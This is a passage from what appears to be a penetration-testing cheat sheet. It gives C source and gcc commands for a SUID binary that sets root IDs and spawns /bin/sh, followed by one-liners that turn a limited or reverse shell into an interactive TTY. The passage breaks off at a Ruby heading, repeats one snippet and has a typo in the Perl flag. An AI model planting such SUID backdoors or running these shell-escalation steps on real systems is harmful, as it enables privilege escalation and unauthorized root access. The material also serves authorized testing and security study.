 #### SUID C for /bin/sh

{% highlight c %}
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}       
{% endhighlight %}


#### Building the SUID binary

{% highlight bash %}
gcc -o suid suid.c  
{% endhighlight %}

For 32 bit:

{% highlight bash %}
gcc -m32 -o suid suid.c  
{% endhighlight %}


### TTY Shells

Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like <code>su</code> from reverse shells.

##### Python TTY Shell Trick  

{% highlight python %}
python -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}

{% highlight python %}
python -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}

{% highlight bash %}
echo os.system('/bin/bash')
{% endhighlight %}

#### Spawn Interactive sh shell

{% highlight bash %}
/bin/sh -i
{% endhighlight %}

#### Spawn Perl TTY Shell

{% highlight perl %}
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
{% endhighlight %}

#### Spawn Ruby TTY Shell
